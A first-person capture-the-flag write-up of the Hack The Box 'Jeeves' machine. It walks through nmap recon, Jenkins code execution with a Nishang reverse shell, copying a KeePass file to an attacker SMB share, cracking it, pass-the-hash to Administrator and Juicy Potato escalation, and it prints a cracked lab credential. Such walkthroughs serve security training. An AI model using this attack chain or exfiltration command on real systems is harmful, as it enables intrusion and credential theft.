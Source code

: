 # Recon

I do my initial scan to see which ports are open.

## nmap
```
# Nmap 7.92 scan initiated Thu Aug 18 17:34:46 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv jeeves.htb
Nmap scan report for jeeves.htb (10.129.1.109)
Host is up, received echo-reply ttl 127 (0.051s latency).
Scanned at 2022-08-18 17:34:46 CDT for 26s
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
50000/tcp open  ibm-db2      syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Aug 18 17:35:12 2022 -- 1 IP address (1 host up) scanned in 26.60 seconds
```

Then run `nmap` again with default scripts (`-sC`) and service discovery (`-sV`) on the ports that were found from the first scan.

```
# Nmap 7.92 scan initiated Thu Aug 18 17:36:20 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 80,135,445,50000 jeeves.htb
Nmap scan report for jeeves.htb (10.129.1.109)
Host is up, received echo-reply ttl 127 (0.047s latency).
Scanned at 2022-08-18 17:36:21 CDT for 46s

PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-08-19T03:36:29
|_  start_date: 2022-08-19T03:32:46
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 60400/tcp): CLEAN (Timeout)
|   Check 2 (port 33595/tcp): CLEAN (Timeout)
|   Check 3 (port 20613/udp): CLEAN (Timeout)
|   Check 4 (port 45793/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 5h00m00s, deviation: 0s, median: 5h00m00s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 18 17:37:07 2022 -- 1 IP address (1 host up) scanned in 47.62 seconds
```

We see IIS 10.0 on port 80, RPC on port 135, SMB open on port 445, and Jetty on port 50000. I also ran a UDP and vuln scan but didn't get anything helpful back.

- nothing in logs
- no vuln plugins?
# Enumeration

## Feroxbuster

Running a directory scan on port 80 didn't return anything help, although running a scan on port 50000 reveals the directory `/askjeeves` which is where a Jenkins instance is served.

```
302      GET        0l        0w        0c http://jeeves.htb:50000/askjeeves => http://jeeves.htb:50000/askjeeves/
302      GET        0l        0w        0c http://jeeves.htb:50000/askjeeves/search => http://jeeves.htb:50000/askjeeves/search/
302      GET        0l        0w        0c http://jeeves.htb:50000/askjeeves/about => http://jeeves.htb:50000/askjeeves/about/
302      GET        0l        0w        0c http://jeeves.htb:50000/askjeeves/assets => http://jeeves.htb:50000/askjeeves/assets/
302      GET        0l        0w        0c http://jeeves.htb:50000/askjeeves/columns =>
[ ... ]
```

## Website

We see Jenkins at `/askjeeves` and enumerating this doesn't return much but there is a `/systeminfo` page which reveals the user running Jenkins (`kohsuke`) as well as some other helpful information.

![26f1dda8f3b04cc6d1d955457a0af05a.png](../_resources/26f1dda8f3b04cc6d1d955457a0af05a.png)

![user-kohsuke.png](../_resources/user-kohsuke-1.png)

I end up going to `hacktricks.xyz` and find some good info on testing Jenkins.
https://book.hacktricks.xyz/cloud-security/jenkins

I end up getting code execution by creating a new job although the next method on the page is execution through Groovy script which also works after watching IppSec's video. First, I modify `Invoke-PowerShellTcp.ps1` from Nishang's shell list:
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

![d240bc4da37dec20d320cbbc8dd0e750.png](../_resources/d240bc4da37dec20d320cbbc8dd0e750.png)

Followed by using powershell to download and execute this script...

![9f5187c2ffbbc0dc1f23a374d09bf0e1.png](../_resources/9f5187c2ffbbc0dc1f23a374d09bf0e1.png)

I make sure my Python http server is running.

![662ebe3c32450ae80b2b2b7f5db4ad0b.png](../_resources/662ebe3c32450ae80b2b2b7f5db4ad0b.png)

And also Netcat to catch the reverse shell. Which works! We get a shell back as `kohsuke` which is expected.

![8de5d114e81755fcbf24c7b4d6549746.png](../_resources/8de5d114e81755fcbf24c7b4d6549746.png)

Right away, I run `whoami /priv` and see that `SeImpersonatePrivilege` is enabled. Based off of previous boxes, I know that this means Juicy Potato is a good candidate for privilege escalation.
https://github.com/ohpe/juicy-potato/releases/tag/v0.1

![privs.png](../_resources/privs-1.png)

Before getting our hands dirty, I also drop `winPEAS.bat` on the box and execute it.

![b4a096cdb5793c4d149470dcbebdb2b7.png](../_resources/b4a096cdb5793c4d149470dcbebdb2b7.png)

This reveals an interesting file named `CEH.kdbx`. A quick Google search says this is a KeyPass database. Another quick Google search says we can use `keypass2john` to convert it to a file that `john` is able to crack.

![ceh.png](../_resources/ceh-1.png)

Since SMB is on this system, I'll start a python SMB server with the following command in order to upload the file to our local machine.

`python3 smbserver.py share .`

![e027e9c2ead6f617020f85b6a054fb17.png](../_resources/e027e9c2ead6f617020f85b6a054fb17.png)

https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py

I'll use Powershell to upload it to my share.

`copy-item -Path C:\Users\kohsuke\Documents\CEH.kdbx -Destination \\10.10.14.64\share`
![1bc845599ad7f07274907300facf5b88.png](../_resources/1bc845599ad7f07274907300facf5b88.png)

And we crack it as so:

![63cf31eeaaf69fd31c4ba5725927eb57.png](../_resources/63cf31eeaaf69fd31c4ba5725927eb57.png)

This reveals credentials: `kohsuke:moonshine1`

I don't already have KeePass, so I end up searching `apt` and use `kpcli`.

![95048c55400a576a12ae9b270d082f89.png](../_resources/95048c55400a576a12ae9b270d082f89.png)

`kpcli` has a pretty good `--help` menu so I eventually come across a hash that might be helpful for passing the hash to SYSTEM/administrator.

![6175db48d5976083240d92b13ca38952.png](../_resources/6175db48d5976083240d92b13ca38952.png)

![bb7c382b29fbedb47626b192fe28b736.png](../_resources/bb7c382b29fbedb47626b192fe28b736.png)

I use `pth-winexe` and get a shell back as Administrator!

![2d12de11177a64ea4a275c5c8850e53f.png](../_resources/2d12de11177a64ea4a275c5c8850e53f.png)

As an optional step, we can also get a shell as SYSTEM with Juicy Potato. I do this by downloading Netcat and Juicy Potato on the box...

![7c77470f636d99505d1fc94d98409cf3.png](../_resources/7c77470f636d99505d1fc94d98409cf3.png)

![f65cc64964e527191ef91d2383795f6d.png](../_resources/f65cc64964e527191ef91d2383795f6d.png)

And run JP as so:

![817e1ce6d9af66f231291683e5ee4009.png](../_resources/817e1ce6d9af66f231291683e5ee4009.png)

![8385b9889ca5b7691c7f7e1b57bc8110.png](../_resources/8385b9889ca5b7691c7f7e1b57bc8110.png)

Before getting too excited and collecting our flags, we see there is no `root.txt` in the Admin desktop, but rather `hm.txt` which tells us to look deeper. 

![ae393eb4c68327d3480f70caffc91a9a.png](../_resources/ae393eb4c68327d3480f70caffc91a9a.png)

Before leaving this directory, I try a bunch of switches for `dir` and find that `dir /R` reveals a file named `hm.txt:root.txt:$DATA`. 

![eea26594df9feaade6fa7817abb9aa36.png](../_resources/eea26594df9feaade6fa7817abb9aa36.png)

Finally, we can read the stream `root.txt` in `hm.txt` using PowerShell as so:

![root.png](../_resources/root-1.png)

